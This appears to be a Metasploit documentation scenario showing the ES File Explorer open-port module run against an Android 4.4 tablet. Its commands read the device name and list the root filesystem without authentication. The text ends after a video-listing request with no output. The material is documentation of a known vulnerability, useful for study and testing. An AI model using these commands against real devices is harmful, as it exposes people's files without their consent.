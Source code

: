 ### ES File Explorer 4.1.9.5.1 on a Dragon Touch Y88X on Android 4.4

```
resource (es.rb)> use modules/auxiliary/scanner/http/es_file_explorer_open_port
resource (es.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (es.rb)> set action GETDEVICEINFO
action => GETDEVICEINFO
resource (es.rb)> run
[+] 1.1.1.1:59777  - Name: Y88X
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTFILES
action => LISTFILES
resource (es.rb)> run
[+] 1.1.1.1:59777  
  folder: bootloader (0.00 Bytes) - 3/23/2019 10:36:51 AM
  folder: databk (0.00 Bytes) - 3/23/2019 10:36:49 AM
  folder: sdcard (4.00 KB) - 3/23/2019 02:15:24 PM
  folder: storage (0.00 Bytes) - 3/23/2019 10:36:49 AM
  folder: config (0.00 Bytes) - 3/23/2019 10:36:49 AM
  folder: cache (4.00 KB) - 3/24/2019 07:37:46 AM
  folder: acct (0.00 Bytes) - 3/23/2019 10:36:49 AM
  folder: vendor (4.00 KB) - 1/31/2015 05:56:49 AM
  folder: d (0.00 Bytes) - 12/31/1969 07:00:00 PM
  folder: etc (4.00 KB) - 2/3/2015 03:51:06 AM
  folder: mnt (0.00 Bytes) - 3/23/2019 10:36:49 AM
  file: ueventd.sun8i.rc (1.18 KB) - 12/31/1969 07:00:00 PM
  file: ueventd.rc (3.93 KB) - 12/31/1969 07:00:00 PM
  folder: system (4.00 KB) - 12/31/1969 07:00:00 PM
  folder: sys (0.00 Bytes) - 3/23/2019 10:36:45 AM
  file: sepolicy (73.82 KB) - 12/31/1969 07:00:00 PM
  file: seapp_contexts (656.00 Bytes) - 12/31/1969 07:00:00 PM
  folder: sbin (0.00 Bytes) - 12/31/1969 07:00:00 PM
  folder: res (0.00 Bytes) - 12/31/1969 07:00:00 PM
  file: property_contexts (2.11 KB) - 12/31/1969 07:00:00 PM
  folder: proc (0.00 Bytes) - 12/31/1969 07:00:00 PM
  file: nand.ko (1.47 MB) - 12/31/1969 07:00:00 PM
  file: initlogo.rle (2.34 MB) - 12/31/1969 07:00:00 PM
  file: init.usb.rc (3.82 KB) - 12/31/1969 07:00:00 PM
  file: init.trace.rc (1.75 KB) - 12/31/1969 07:00:00 PM
  file: init.sunxi.wifi.bt.rc (1010.00 Bytes) - 12/31/1969 07:00:00 PM
  file: init.sun8i.usb.rc (3.40 KB) - 12/31/1969 07:00:00 PM
  file: init.sun8i.rc (4.67 KB) - 12/31/1969 07:00:00 PM
  file: init.recovery.sun8i.rc (97.00 Bytes) - 12/31/1969 07:00:00 PM
  file: init.rc (23.12 KB) - 12/31/1969 07:00:00 PM
  file: init.environ.rc (919.00 Bytes) - 12/31/1969 07:00:00 PM
  file: init (183.40 KB) - 12/31/1969 07:00:00 PM
  file: fstab.sun8i (1.64 KB) - 12/31/1969 07:00:00 PM
  file: file_contexts (9.03 KB) - 12/31/1969 07:00:00 PM
  file: default.prop (116.00 Bytes) - 12/31/1969 07:00:00 PM
  folder: data (4.00 KB) - 3/23/2019 10:36:52 AM
  file: charger (274.11 KB) - 12/31/1969 07:00:00 PM
  folder: root (0.00 Bytes) - 1/31/2015 05:24:35 AM
  folder: dev (2.62 KB) - 3/23/2019 10:37:14 AM

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTVIDEOS
action => LISTVIDEOS
resource (es.rb)> run
[+] 1.1.1.1:59777  
```